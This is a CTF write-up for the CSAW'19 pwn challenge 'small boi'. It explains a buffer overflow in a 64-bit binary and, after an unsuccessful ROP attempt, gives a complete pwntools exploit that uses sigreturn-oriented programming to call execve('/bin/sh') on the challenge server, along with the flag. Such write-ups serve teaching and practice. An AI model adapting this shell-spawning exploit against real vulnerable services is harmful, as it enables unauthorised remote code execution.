

small boi
===========
**Category**: pwn  **Points**: 100

Challenge Description
-------------
We are given one challenge binary small_boi

Solution (unsolved)
--------------

Firstly some examination, we can see it's a stripped 64-bit binary, NX-enabled so no stack execution.


By executing the binary it just waits for an input, after an input is given it exits. By giving it a large input it resulted in a segfault, which suggests it's a buffer overflow challenge. We can see we are able to gain control of `rip`


Howeer, this time there is no libc provided. So the plan now is to build a ROP chain manually in order to make a systeml call to execute `/bin/sh`. To make the system call we need the following register values

``` bash
rax = 0x3b # https://filippo.io/linux-syscall-table/ is good for searching
rdi = "/bin/sh"
rip = <syscall>
```

We can control the register values by utilising the `pop|ret` gadgets. For example, to write a value to `rax` we could append `p64(<address_of_pop_ret>) + p64(0x3b)` in our payload and `rax` would be set as 0x3b. Now let's analyze if we could control all the register values needed to make the execve system call to call /bin/sh:

We can find the ROP gadgets by using `ROPgadget` for pop|ret. However as shown in the screenshot below, we can only control `rax` and `rbp`. This means that we have no way of control `rdi`, however this is essential to make the system call.


This is where I got up to. Now the following will describe the solution of the challenge.


Continued Solution
--------------
According to another writeup (https://github.com/KEERRO/ctf-writeups/tree/master/CSAW%20CTF'19%20QUALS/SMALL%20BOI), we can see that another special ROP technique called SROP can be used in this challenge.



We can see the `mov eax, 0xf ; syscall` which makes a sigreturn system call. By utilising this gadget we can get a clean frame and control all the register values. More details can also be found at (https://0x00sec.org/t/srop-signals-you-say/2890).

Now the final exploit:

```python
from pwn import *

context.clear(arch="amd64")
elf = ELF("./small_boi")
#r = process("./small_boi")
r = remote('pwn.chal.csaw.io', 1002)

# attach gdb
#gdb.attach(r.pid, """c""")

sh_addr = next(elf.search('/bin/sh'))
log.info("sh_addr @ %s" % hex(sh_addr))
# useful gadgets
#poprbpret = 0x400188
#popraxret = 0x40018a
syscall = 0x400185
sigret = 0x400180

# set up frame to call execve('/bin/sh',0,0)
frame = SigreturnFrame(kernel="amd64")
frame.rax = 0x3b # syscall execve
frame.rdi = sh_addr # /bin/sh address
frame.rip = syscall # syscall gadget

p = 'A'*40
p += p64(sigret) # Sigreturn syscall
p += str(frame)

r.clean()
r.sendline(p)

r.interactive()
```

Executing this we can get the flag: `flag{sigrop_pop_pop_pop}`


